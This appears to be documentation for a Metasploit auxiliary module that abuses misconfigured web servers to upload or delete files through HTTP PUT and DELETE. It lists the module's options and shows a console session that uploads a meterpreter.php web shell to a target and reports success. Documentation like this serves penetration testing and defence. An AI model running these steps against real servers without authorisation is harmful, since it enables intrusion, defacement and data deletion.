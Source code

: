 ## Description 
This module can abuse misconfigured web servers to upload and delete web content via PUT and DELETE HTTP requests.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/http_put```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```set PATH [PATH]```
5. Do: ```set FILENAME [FILNAME]```
6. Do: ```set FILEDATA [PATH]```
7. Do: ```run```

## Options

### ACTION

Set `ACTION` to either `PUT` or `DELETE`. (Default: `PUT`)

**PUT**

Action is set to PUT to upload files to the server. If `FILENAME` isn't specified, the module will generate a random string as a .txt file.

**DELETE** 

Deletes the file specified in the `FILENAME` option (Default: `msf_http_put_test.txt`). `FILENAME` is required when Action is set to DELETE. 

### PATH

The path at which this module will attempt to either PUT the content or DELETE it.

### FILEDATA

The content to put in the uploaded file when `ACTION` is set to `PUT`.


## Scenarios

Here `ACTION` is by default set to `PUT`.

```
msf > use auxiliary/scanner/http/http_put
msf auxiliary(scanner/http/http_put) > set RHOSTS 1.1.1.23
RHOSTS => 1.1.1.23
msf auxiliary(scanner/http/http_put) > set RPORT 8585
RPORT => 8585
msf auxiliary(scanner/http/http_put) > set PATH /uploads
PATH => /uploads
msf auxiliary(scanner/http/http_put) > set FILENAME meterpreter.php
FILENAME => meterpreter.php
msf auxiliary(scanner/http/http_put) > set FILEDATA file://root/Desktop/meterpreter.php
FILEDATA => file://root/Desktop/meterpreter.php
msf auxiliary(scanner/http/http_put) > run 

[+] File uploaded: http://1.1.1.23:8585/uploads/meterpreter.php
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/http_put) >
```
 
